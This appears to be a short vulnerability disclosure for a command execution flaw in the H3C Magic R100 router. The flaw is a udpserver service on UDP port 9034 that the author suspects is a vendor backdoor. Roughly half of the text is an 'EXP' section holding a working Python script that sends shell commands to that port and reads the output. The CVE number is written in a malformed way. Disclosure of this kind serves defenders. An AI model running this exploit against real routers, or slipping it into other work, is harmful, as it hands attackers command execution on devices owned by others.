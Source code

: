 # H3C magicr100 has a Command Execution Vulnerability
# CVE-202234598


## Firmware download

 https://download.h3c.com.cn/download.do?id=3342938



## Vulnerability description

H3C magic R100 is a wireless router. H3C magic R100 has a command execution vulnerability in udpserver

The updserver service has opened the 9034 port suspected to be the official back door

![img](img/{21B4E3ED-20CC-D158-872B-B26A8B2696FD}.jpg)

![img](img/{D86A4C31-8806-191F-6D79-75F682F72352}.jpg)

## EXP

```python
#/usr/bin/env python
#-*-coding:utf-8-*-

from socket import *

HOST = '0.0.0.0' 
PORT = 9034
BUFSIZ = 1024
ADDR = (HOST, PORT)

udpCliendSocket = socket(AF_INET, SOCK_DGRAM)
data = "cat & ls &"
udpCliendSocket.sendto(data, ADDR)
data, ADDR = udpCliendSocket.recvfrom(BUFSIZ)
udpCliendSocket.close()

```

